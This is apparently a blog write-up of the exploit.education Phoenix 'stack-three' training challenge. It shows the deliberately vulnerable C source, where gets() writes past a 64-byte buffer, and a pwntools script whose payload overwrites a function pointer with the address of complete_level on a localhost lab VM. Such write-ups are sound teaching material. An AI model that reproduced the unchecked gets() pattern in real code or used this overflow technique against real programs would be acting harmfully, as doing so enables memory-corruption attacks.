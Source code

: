 ## Stack-Three


![](https://cyberguru1.github.io/posts/phoenix/files/st3_header.png)

### Source Code
---

```
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}

```

Let's Dig in the code

- In the `main` function, a structure named `locals` is declared. It contains an array of characters called `buffer` with a size of `64` and a pointer to a function called `fp`.

- The banner message is printed using the `BANNER` macro.

- Next, the `fp` function pointer is set to `NULL`. Then, the `gets` function is called with the `buffer` as an argument, allowing user input to be stored in the `buffer`. This is a potential vulnerability since gets does not perform bounds checking and can lead to a buffer overflow.

- Afterward, an if statement checks `if` the `fp` function pointer is `non-null`. If it is, the address of the function pointer is printed, and the function pointer is called.

If the `fp` function pointer is still `NULL`, a message is printed indicating that the function pointer remains unmodified.

- Finally, the program exits with a status of 0.

The goal of the challenge is to change the value of the fp pointer to the address of the complete_level function, using GDB we could extract the address of the function

![](https://cyberguru1.github.io/posts/phoenix/files/st3_f-address.png)

the function address is `0x40069d`

this challenge is similar to the previous stack challenge, hence we use a similar script but with a slice change of parameters

### Solution Script
---

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


s = ssh(host='localhost', user='user', password='user', port=2222)

p = s.process('/opt/phoenix/amd64/stack-three')

print(p.recvline())
p.sendline("A"*64 +"\x9d\x06\x40")
print(p.recvline())
print(p.recv(1024))

```
running the script we got:

![](https://cyberguru1.github.io/posts/phoenix/files/st3_result.png)

And viola!! Our complete_level function is called.